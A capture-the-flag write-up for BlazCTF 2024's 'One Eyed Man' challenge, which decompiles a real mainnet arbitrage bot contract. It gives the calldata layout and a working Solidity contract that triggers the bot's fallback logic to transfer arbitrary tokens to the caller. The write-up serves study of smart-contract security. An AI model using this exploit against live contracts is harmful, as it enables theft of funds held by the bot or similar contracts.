 # Oh Fuck Again (One Eyed Man)

> [!NOTE]  
> Hard  
> Source: https://github.com/fuzzland/blazctf-2024/tree/main/oh-fuck-oym

"Oh Fuck Again" was the second challenge of the "Oh Fuck" duo on BlazCTF 2024. The first challenge ([blazctf-2024/oh-fuck-pendle](https://github.com/fuzzland/blazctf-2024/tree/main/oh-fuck-pendle))
was about retrieving a custom ERC20 token accidentally sent to the Pendle protocol router, which we were able to easily solve by calling the `swapTokenToToken`
method with a malicious "pendleSwap" contract. The second challenge's description hints
at a similar format:

> Tony's heart sank again as he realized he incorrectly sent millions of dollars again. He was hacking arbitrage bots and came across a bot named One Eyed Man (https://etherscan.io/address/0xcf9997ff3178ee54270735fdc00d4a26730787e0). He felt he can trick the bot by sending fake tokens to it but accidentally sent real money. Help Tony recover his money.

## TLDR

The bot's contract contains a fallback function with callback-like payment mechanisms for non-EOA callers.
By executing this mechanism in a carefully-crafted call from our own contract,
we can get the bot to transfer arbitrary tokens to us by returning the desired token
address from the `token0()` method of our contract.

## Analysis

This challenge was probably the easiest in terms of its setup and solution criteria. Here's the whole `Challenge` contract:

```solidity
contract WBTC is ERC20 {
    constructor() {
        _mint(msg.sender, 1337 ether);
    }

    function name() public pure override returns (string memory) {
        return "Wrapped Bitcoin";
    }

    function symbol() public pure override returns (string memory) {
        return "WBTC";
    }
}

contract Challenge {
    address public immutable PLAYER;
    WBTC public immutable token;

    constructor(address player) {
        PLAYER = player;
        token = new WBTC();
        token.transfer(0xCf9997FF3178eE54270735fDc00d4A26730787E0, 1337 ether);
    }

    function isSolved() external view returns (bool) {
        return token.balanceOf(PLAYER) >= 337 ether;
    }
}
```

Since the whole supply of `WBTC` is transferred to the bot on challenge initialization,
there's no way to get it back except for the bot to `transfer` it back to us,
or `approve` it to be spent by us (e.g. using `transferFrom`).
Knowing this, lets simply go ahead with attempting to reverse engineer the bot's contract,
using https://app.dedaub.com, for example (disclaimer: not an advertisement,
however it is probably one of the best publicly-available EVM reverse engineering tools existing right now).

Taking a look at the "Decompiled" view (https://app.dedaub.com/ethereum/address/0xcf9997ff3178ee54270735fdc00d4a26730787e0/decompiled, copy available in [./decompiled.sol](./decompiled.sol)),
references to `transfer` exist only in the functions `0x10b2` and `0x96ce0a56`.
The second one can be simplified to something like this:

```solidity
function 0x96ce0a56(address token, address target) public payable {
    uint256 botBalance = token.balanceOf(address(this));
    uint256 initialBalance = token.balanceOf(target);
    token.transfer(target, botBalance);
    uint256 newBalance = token.balanceOf(target);
    require(newBalance <= initialBalance, newBalance - initialBalance);
    revert();
}
```

Even though it _does_ call `transfer` to an address parsed from the calldata (`0x96ce0a56` is publically callable),
it later expects the `transfer` to instead decrease the target's balance,
and then non-conditionally `revert`s anyway, meaning that this function is useless to us.
`0x10b2`, on the other hand, looks more promising, as it simplifies to a basic wrapper of calls to `transfer` with extra revert and return data checking:

```solidity
function 0x10b2(uint256 amount, address target, address token) private {
    (bool ok, _) = token.transfer(target, amount);
    require(ok, Error('Oopsie'));
}
```

However, as the decompiler view shows, this function is `private`,
so the next step is analyzing its call sites to see how we can call it with the right arguments:

1. `withdrawERCTo` is one of the public functions which calls `0x10b2`, but contains a `msg.sender` check to be callable only by the bot operator: `require(0xf90029931c7a9a27e350cd35c91cbedbb58350c4 == msg.sender)`;
2. fallback-like logic in the contract with a non-controllable `token` address (the third argument): `0x10b2(msg.data[v11] >> 128, msg.data[v83] >> 96, 0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2);`;
3. A second call in the fallback logic, seems controllable, but is hidden inside some pretty deep `if` statements: `0x10b2(v7, msg.data[v12 + 2] >> 96, v18);`;
4. The last call site is also part of the fallback logic, with the `amount` argument being fully controllable via calldata, and the `token` address being controllable when the caller is a contract that implements the `token0()`/`token1()` methods:

To me, the last choice seemed to be the easiest to exploit, since two of the three parameters are easily controllable (`target` is `msg.sender`, `token` is returned from our own contract's method). Getting to it requires passing one main check:

```solidity
    v0 = v1 = 132;
    if (msg.data[4] == this) {
        v0 = v2 = 164;
    }
    // ...
    v11 = v0 + (msg.data[v0 - 32] - 17);
    // ...
    if (v11 - v0 != 16) {
        // non-interesting case
        // ...
    } else {
        // exploitable case
        // ...
        0x10b2(v87, msg.sender, v91);
    }
```

Supposing we set `calldata[4:36]` to 0x0, the `msg.data[4] == this` check will fail,
`v0` will be left at 132, and `v11` will need to be equal to 148 for us to reach the
interesting case. Since `v11` is set to the sum of `v0` and `msg.data[v0 - 32] - 17`,
we just need to set `calldata[132 - 32]` to 33 to get `v11` to equal `132 + 16` and trigger the else block. If we look inside the else block,
we see that by setting `msg.data[4]` to 0x0 we will trigger the `token0()` method to be called
on `msg.sender`, which can be our contract, and the `amount` value will be set to
`msg.data[v0] >> 128`. At this point, we know everything we need to solve the challenge,
and just need to craft a proper call to the bot contract.

## Solution

Crafting the call step-by-step should lead to calldata of this form:

| Indexes  | Value        | Comment                              |
| -------- | ------------ | ------------------------------------ |
| 0..3     | 0x0          | Invalid selector to trigger fallback |
| 4..35    | 0x0          | Pass `msg.data[4] != this` check     |
| 36..99   | 0x0          | Padding until index 100              |
| 100..131 | 33           | `msg.data[v0 - 32] - 17` equal to 16 |
| 132..147 | 1337 \* 10e8 | 1337 ether amount for transfer       |
| 148..163 | 0x0          | Pad to 32 bytes                      |

And the solution contract looks like this:

```solidity
contract SolveContract {
    address constant ONE_EYED_MAN = address(0xCf9997FF3178eE54270735fDc00d4A26730787E0);

    address private owner;
    address public token0;

    constructor(address token) {
        token0 = token;
        owner = msg.sender;
    }

    function solve() public {
        (bool ok, ) = ONE_EYED_MAN.call(
            abi.encodePacked(
                bytes4(0), // non-existent selector
                uint256(0), // msg.data[4] != this
                uint256(0),
                uint256(0), // 100 bytes
                uint256(33),
                uint128(1337 ether),
                uint128(0)
            )
        );
        require(ok, "call failed");

        WBTC(token0).transfer(owner, 1337 ether);
    }
}
```

The full solution script is available in the [./Solve.s.sol](./Solve.s.sol) file.
Running it requires specifying the actual script contract using the `--tc Solve` `forge` flag.

![Flag captured](flag.png)
